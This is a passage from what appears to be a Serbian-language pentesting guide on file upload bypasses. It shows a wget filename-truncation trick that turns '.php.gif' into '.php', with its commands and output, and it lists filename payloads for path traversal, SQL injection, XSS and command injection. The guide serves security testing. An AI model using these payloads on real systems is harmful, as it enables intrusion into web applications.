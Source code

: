 ```bash
#Create file and HTTP server
echo "SOMETHING" > $(python -c 'print("A"*(236-4)+".php"+".gif")')
python3 -m http.server 9080
```

```bash
#Download the file
wget 127.0.0.1:9080/$(python -c 'print("A"*(236-4)+".php"+".gif")')
The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2020-06-13 03:14:06--  http://127.0.0.1:9080/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
Connecting to 127.0.0.1:9080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10 [image/gif]
Saving to: ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’

AAAAAAAAAAAAAAAAAAAAAAAAAAAAA 100%[===============================================>]      10  --.-KB/s    in 0s

2020-06-13 03:14:06 (1.96 MB/s) - ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’ saved [10/10]
```

Imajte na umu da je **još jedna opcija** koju možda razmatrate da zaobiđete ovu proveru da naterate **HTTP server da preusmeri na drugi fajl**, tako da će početni URL zaobići proveru, a zatim će wget preuzeti preusmereni fajl sa novim imenom. Ovo **neće raditi** **osim ako** se wget koristi sa **parametrom** `--trust-server-names` jer će **wget preuzeti preusmerenu stranicu sa imenom fajla naznačenim u originalnom URL-u**.

## Alati

* [Upload Bypass](https://github.com/sAjibuu/Upload\_Bypass) je moćan alat dizajniran da pomogne Pentesterima i Bug Hunterima u testiranju mehanizama za otpremanje fajlova. Koristi različite tehnike lova na bagove kako bi pojednostavio proces identifikacije i iskorišćavanja ranjivosti, obezbeđujući temeljnu procenu veb aplikacija.

## Od otpremanja fajla do drugih ranjivosti

* Postavite **ime fajla** na `../../../tmp/lol.png` i pokušajte da postignete **traversiranje putanje**
* Postavite **ime fajla** na `sleep(10)-- -.jpg` i možda ćete moći da postignete **SQL injection**
* Postavite **ime fajla** na `<svg onload=alert(document.domain)>` da postignete XSS
* Postavite **ime fajla** na `; sleep 10;` da testirate neke injekcije komandi (više [tričarija za injekciju komandi ovde](../command-injection.md))
* [**XSS** u fajlu sa slikom (svg)](../xss-cross-site-scripting/#xss-uploading-files-svg)
* **JS** fajl **otpremanje** + **XSS** = [**Eksploatacija radnika usluge**](../xss-cross-site-scripting/#xss-abusing-service-workers)
* [**XXE u otpremanju svg**](../xxe-xee-xml-external-entity.md#svg-file-upload)
* [**Otvoreno preusmeravanje** putem otpremanja svg fajla](../open-redirect.md#open-redirect-uploading-svg-files)
* Isprobajte **različite svg naboje** sa [**https://github.com/allanlw/svg-cheatsheet**](https://github.com/allanlw/svg-cheatsheet)\*\*\*\*
* [Čuvena ranjivost **ImageTrick**](https://mukarramkhalid.com/imagemagick-imagetragick-exploit/)